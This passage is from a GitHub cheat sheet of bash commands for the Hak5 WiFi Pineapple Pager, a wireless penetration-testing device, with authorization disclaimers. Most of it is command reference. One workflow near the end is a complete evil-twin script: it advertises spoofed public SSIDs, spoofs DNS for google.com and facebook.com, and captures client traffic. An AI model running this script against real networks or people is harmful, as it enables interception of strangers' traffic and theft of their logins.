<summary><b>🌐 SYSTEM_DNS - Set system DNS</b></summary>

**Syntax:**
```bash
SYSTEM_DNS DHCP
SYSTEM_DNS [IP]
```

**Example:**
```bash
SYSTEM_DNS 8.8.8.8
SYSTEM_DNS 1.1.1.1
```

</details>

<details>
<summary><b>🔍 FIND_CLIENT_IP - Get client IP info</b></summary>

**Syntax:**
```bash
FIND_CLIENT_IP [mac] {timeout}
```

**Example:**
```bash
CLIENT_IP=$(FIND_CLIENT_IP "aa:bb:cc:dd:ee:ff" 30)
echo "Client IP: $CLIENT_IP"
```

</details>

---

## 📍 GPS Operations

<details>
<summary><b>📍 GPS_CONFIGURE - Setup GPS device</b></summary>

**Syntax:**
```bash
GPS_CONFIGURE [serial] {speed}
```

**Example:**
```bash
GPS_CONFIGURE /dev/ttyUSB0 9600
```

**Common Baud Rates:** 9600 (most common), 4800, 115200

</details>

<details>
<summary><b>📋 GPS_LIST - List GPS devices</b></summary>

**Syntax:**
```bash
GPS_LIST
```

</details>

<details>
<summary><b>🌍 GPS_GET - Get current location</b></summary>

**Syntax:**
```bash
GPS_GET
```

**Returns:** Latitude, longitude, altitude, speed

**Example:**
```bash
LOCATION=$(GPS_GET)
LOG "Location: $LOCATION"
```

</details>

---

## ⚙️ System Operations

<details>
<summary><b>🔑 PASSWORD - Set admin password</b></summary>

**Syntax:**
```bash
PASSWORD [password]
```

**Example:**
```bash
PASSWORD "SecurePassword123!"
```

</details>

<details>
<summary><b>💾 INSTALL_FIRMWARE - Install firmware</b></summary>

**Syntax:**
```bash
INSTALL_FIRMWARE [file]
```

</details>

<details>
<summary><b>🔐 SSH_ADD_KNOWN_HOST - Add SSH host</b></summary>

**Syntax:**
```bash
SSH_ADD_KNOWN_HOST [hostname] [keytype] [keydata]
```

</details>

<details>
<summary><b>🔋 BATTERY_CHARGING - Check charging status</b></summary>

**Syntax:**
```bash
BATTERY_CHARGING
```

**Returns:** Charging status

**Added in firmware 1.0.7**

</details>

<details>
<summary><b>🔋 BATTERY_PERCENT - Get battery level</b></summary>

**Syntax:**
```bash
BATTERY_PERCENT
```

**Returns:** Battery percentage

**Example:**
```bash
LEVEL=$(BATTERY_PERCENT)
LOG "Battery: ${LEVEL}%"
```

**Added in firmware 1.0.7**

</details>

---

## 💡 LED & Display

<details>
<summary><b>💡 LED - Control LED</b></summary>

**Syntax:**
```bash
LED [COLOR] [PATTERN]
LED [STATE]
```

**Example:**
```bash
LED blue solid
LED red blink
LED off
```

</details>

<details>
<summary><b>🎨 DPADLED - Control DPAD LED</b></summary>

**Syntax:**
```bash
DPADLED [color]
```

**Colors:** `red`, `green`, `blue`, `cyan`, `yellow`, `magenta`, `white`, `off`

**Example:**
```bash
DPADLED green
DPADLED red
DPADLED off
```

</details>

<details>
<summary><b>⚙️ DPADLED_CONFIG - Set default DPAD LED</b></summary>

**Syntax:**
```bash
DPADLED_CONFIG [color]
```

</details>

<details>
<summary><b>👁️ ENABLE_DISPLAY / DISABLE_DISPLAY</b></summary>

**Syntax:**
```bash
ENABLE_DISPLAY
DISABLE_DISPLAY
```

</details>

---

## 📝 Logging & Data Collection

<details>
<summary><b>📝 LOG - Write to log</b></summary>

**Syntax:**
```bash
LOG {COLOR} MESSAGE
```

**Example:**
```bash
LOG "Starting attack"
LOG red "Error occurred"
```

</details>

### Wigle Integration

<details>
<summary><b>🔐 WIGLE_LOGIN - Login to Wigle</b></summary>

**Syntax:**
```bash
WIGLE_LOGIN {username} {password}
```

**Example:**
```bash
WIGLE_LOGIN "myuser" "mypass"
```

</details>

<details>
<summary><b>▶️ WIGLE_START - Start Wigle logging</b></summary>

**Syntax:**
```bash
WIGLE_START
```

**Requires:** Physical GPS and Wigle login

</details>

<details>
<summary><b>📤 WIGLE_UPLOAD - Upload to Wigle</b></summary>

**Syntax:**
```bash
WIGLE_UPLOAD {--archive} {--remove} [/path/to/file]
```

**Example:**
```bash
WIGLE_UPLOAD --archive /root/loot/wigle.log
```

</details>

<details>
<summary><b>📦 PINEAPPLE_LOOT_ARCHIVE - Archive loot</b></summary>

**Syntax:**
```bash
PINEAPPLE_LOOT_ARCHIVE
```

**Note:** Triggers a new recon session, wigle log, and pcap log (if enabled) after archiving.

**Added in firmware 1.0.7**

</details>

---

## 🎯 Payload Configuration

<details>
<summary><b>💾 PAYLOAD_SET_CONFIG - Store config</b></summary>

**Syntax:**
```bash
PAYLOAD_SET_CONFIG [payload] [option] [value]
```

**Example:**
```bash
PAYLOAD_SET_CONFIG "evil_twin" "ssid" "FreeWiFi"
PAYLOAD_SET_CONFIG "evil_twin" "timeout" "300"
```

</details>

<details>
<summary><b>📖 PAYLOAD_GET_CONFIG - Get config</b></summary>

**Syntax:**
```bash
PAYLOAD_GET_CONFIG [payload] [option]
```

</details>

<details>
<summary><b>🗑️ PAYLOAD_DEL_CONFIG - Delete config</b></summary>

**Syntax:**
```bash
PAYLOAD_DEL_CONFIG [payload] [option]
```

</details>

---

## 💾 USB Operations

<details>
<summary><b>💾 USB_STORAGE - Manage USB storage</b></summary>

**Syntax:**
```bash
USB_STORAGE
```

</details>

<details>
<summary><b>⏱️ USB_WAIT - Wait for USB</b></summary>

**Syntax:**
```bash
USB_WAIT
```

</details>

<details>
<summary><b>📤 USB_EJECT - Eject USB device</b></summary>

**Syntax:**
```bash
USB_EJECT
```

</details>

---

## 💡 Common Workflows

### 🎯 Complete Evil Twin Attack

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Accept terms
SLA_ACCEPT --i-accept
TOS_ACCEPT --i-accept

# Show startup
ALERT "Starting Evil Twin Attack"
LED blue solid

# Collect probe requests
PINEAPPLE_SSID_POOL_COLLECT_START
ALERT "Collecting SSIDs from probe requests..."
sleep 30
PINEAPPLE_SSID_POOL_COLLECT_STOP

# Add target SSIDs
PINEAPPLE_SSID_POOL_ADD "FreeWiFi"
PINEAPPLE_SSID_POOL_ADD "Starbucks_WiFi"
PINEAPPLE_SSID_POOL_ADD "attwifi"

# Create open AP
WIFI_OPEN_AP wlan0open "FreeWiFi"

# Start advertising
PINEAPPLE_SSID_POOL_START
LED green blink

# Setup DNS spoofing
DNSSPOOF_ADD_HOST A "google.com" "192.168.1.100"
DNSSPOOF_ADD_HOST A "facebook.com" "192.168.1.100"
DNSSPOOF_ENABLE

# Start packet capture
WIFI_PCAP_START

# Wait for client
ALERT "Waiting for client connection..."
FIND_CLIENT_IP "aa:bb:cc:dd:ee:ff" 60

# Notify
ALERT "Client connected!"  # Obeys system ringtone preferences
LED red solid
LOG "Client connected to evil twin"

# Continue monitoring...
```

### 🌐 VPN Setup Workflow

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Connect to WiFi first
WIFI_CONNECT wlan0cli "MyNetwork" psk2 "password"
WIFI_WAIT wlan0cli 30

# Configure and enable VPN
OPENVPN_CONFIGURE enable /root/vpn.ovpn
OPENVPN_ENABLE

# Or use WireGuard
# WIREGUARD_CONFIGURE enable /root/wg.conf
# WIREGUARD_ENABLE

ALERT "VPN Connected"
```

### 📍 GPS Tracking Workflow

```bash
#!/bin/bash
# Author: TheCyberJest0r
# Repository: https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet

# Configure GPS
GPS_CONFIGURE /dev/ttyUSB0 9600

# Get current location
LOCATION=$(GPS_GET)
LOG "Current location: $LOCATION"

# Setup Wigle
WIGLE_LOGIN "username" "password"
WIGLE_START

# Log periodically
while true; do
    LOCATION=$(GPS_GET)
    LOG "Location: $LOCATION"
    sleep 60
done

# Later: Upload data
WIGLE_UPLOAD --archive
```

---

## 🔧 Developer Functions

<details>
<summary><b>🎨 DEVELOPER_THEME_RELOAD - Reload UI theme</b></summary>

**Syntax:**
```bash
DEVELOPER_THEME_RELOAD {component name}
```

**Use:** Development and theme testing

</details>

---

## ⚖️ Legal & Terms

### Software License Agreement

```bash
SLA_ACCEPT --i-accept
```

**Full Agreement:** https://hak5.org/products/pineapple/pineapplepager/legal_sla

### Terms of Service

```bash
TOS_ACCEPT --i-accept
```

**Full Terms:** https://hak5.org/products/pineapple/pineapplepager/legal_tos

> **⚠️ Important:** Always ensure you have proper authorization before using these tools. Unauthorized access is illegal.

---

## 📋 Changelog

Version history synced with WiFi Pineapple Pager firmware releases:

| Version | Date | Highlights |
|---------|------|------------|
| **1.0.0** | 2025-11-26 | Initial Release |
| **1.0.1** | 2025-12-16 | Spinner in settings, 2.4/5/6 status bar, Radio Settings, reorganized PineAP & Settings menus, filter fixes |
| **1.0.2** | 2025-12-16 | Evil WPA wizard, faster network config reloads (7x), brightness fix, minimum PSK length |
| **1.0.3** | 2025-12-16 | Toggle fixes, Virtual Pager Archive, DNSSPOOF_DISABLE stale config fix |
| **1.0.4** | 2025-12-18 | Wigle upload/fix, EvilWPA BSSID fix, keyboard fixes, GPS consistency, OTA fixes |
| **1.0.6** | 2026-01-16 | Renamed `PINEAPPLE_MAC_FILTER_*` → `PINEAPPLE_DEVICE_FILTER_*`, `PINEAPPLE_SSID_FILTER_*` → `PINEAPPLE_NETWORK_FILTER_*`, added `*_ADD_FILE` commands, removed `ALERT_RINGTONE`, added `PINEAPPLE_MIMIC_ENABLE/DISABLE`, GPS device path changes |
| **1.0.7** | 2026-02-03 | Added `PINEAPPLE_HOPPING_START/STOP`, `PINEAPPLE_LOOT_ARCHIVE`, `BATTERY_CHARGING`, `BATTERY_PERCENT`, hidden SSID fixes, 24h clock option |

> **Note:** After upgrading to 1.0.6+, you may need to reconfigure your GPS device under Settings > GPS for the new serial device naming.

---

## 📚 Resources

<div align="center">

| Resource | Link |
|----------|------|
| 📦 **This Repository** | [GitHub - TheCyberJest0r](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet) |
| 🌐 **Official Website** | [hak5.org](https://hak5.org) |
| 📖 **Documentation** | [docs.hak5.org/pineapple-pager](https://docs.hak5.org/pineapple-pager) |
| 💬 **Forums** | [forums.hak5.org](https://forums.hak5.org) |
| 🛒 **Store** | [shop.hak5.org](https://shop.hak5.org) |

</div>

---

## ⚠️ Disclaimer

<div align="center">

**This cheat sheet is for educational and authorized security testing purposes only.**

Always ensure you have proper authorization before using these tools. Unauthorized access to computer systems is illegal and unethical.

</div>

---

## 📝 License

This cheat sheet is licensed under the [MIT License](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/blob/main/LICENSE). It is provided as-is for educational purposes. Refer to Hak5's official documentation and terms of service for official WiFi Pineapple information.

---

<div align="center">

### Made with ❤️ for the Hak5 Community

**Created by [TheCyberJest0r](https://github.com/TheCyberJest0r)**

**⭐ Star this repo if you find it helpful!**

[📦 View on GitHub](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet) • [🐛 Report Issue](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/issues) • [💡 Request Feature](https://github.com/TheCyberJest0r/Wifi-Pineapple-Pager-Payloads-Cheat-sheet/issues)

[⬆ Back to Top](#-wifi-pineapple-pager---bash-functions-cheat-sheet)

</div>
